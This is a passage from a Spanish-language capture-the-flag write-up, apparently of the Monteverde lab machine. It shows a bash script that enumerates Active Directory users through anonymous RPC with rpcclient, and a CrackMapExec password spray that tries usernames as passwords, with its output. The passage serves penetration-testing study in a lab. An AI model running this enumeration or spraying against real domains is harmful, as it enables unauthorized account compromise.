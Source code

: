 ```bash
```

No ha funcionado, no existen usuarios en el dominio que sean vulnerables a este ataque. Lo siguiente fue probar si había carpetas compartidas que esten disponibles para un usuario anonimo y tampoco... Me hice un pequeños script en bash para enumerar los usuarios a traves de RPC.

```bash
#!/bin/bash

ip=$1

for i in $(rpcclient $ip -U '' -N -c "enumdomusers");do

        rid=$(echo $i | grep "rid" | cut -d ':' -f2 | tr -d '[]')

        info=$(rpcclient $ip -U '' -N -c "queryuser $rid")

        username=$(echo $info | cut -d ':' -f1,2)

        parseruser=$(echo $username | sed -e 's/\Full Name//g')

        echo "$parseruser:"
        echo "$info" | grep "Description :"
done
```

En este caso en las descripciones de los usuarios tampoco había nada interesante. Lo siguiente fue hacer fuerza bruta para ver si algun usuario tenia de contraseña el nombre de usuario.

Para esa tarea utilicé CrackMapExec:

```bash
❯ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
```
